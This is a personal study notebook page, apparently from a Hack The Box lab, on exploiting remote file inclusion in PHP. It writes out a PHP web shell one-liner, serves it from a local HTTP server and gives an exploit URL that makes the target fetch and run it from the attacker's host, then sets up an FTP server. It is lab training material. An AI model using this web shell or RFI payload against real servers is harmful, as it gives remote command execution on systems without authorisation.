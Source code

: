 ## **Verify RFI**

```bash
0xR3Y4D@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On # SO IF THIS IS ALLOWED WE GOT 4 OPTIONS 1-> USE DATA WRAPPER IN PHP TO EXECUTE COMMANDS | 2-> use input wrapper | 3-> EXPLOIT RFI
```

## **Remote Code Execution with RFI**

```bash
0xR3Y4D@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

### **HTTP**

```bash
0xR3Y4D@htb[/htb]$ sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...
```

> Exploit:
> 
> 
> ```bash
> http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
> ```
> 
> ![Untitled](../../../../0xN1ghtM4r3-Notebook%203351968cf3f74ad68a09245768551fca/0xR3Y4D-Notebook%207651c00ee0914affa2b674b2d962ac9c/Server%20Side%20Attacks%20b1a016ea12d5480c9b34a987022407f6/File%20Inclusions%20273322b142ad4dd2806ca52bd28d7e9a/Study%20Notes%20e9a012804c054c9ea5aa1aa5ac36b644/Untitled%203.png)
> 

### FTP

```bash
0xR3Y4D@htb[/htb]$ sudo python -m pyftpdlib -p 21

[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None
```
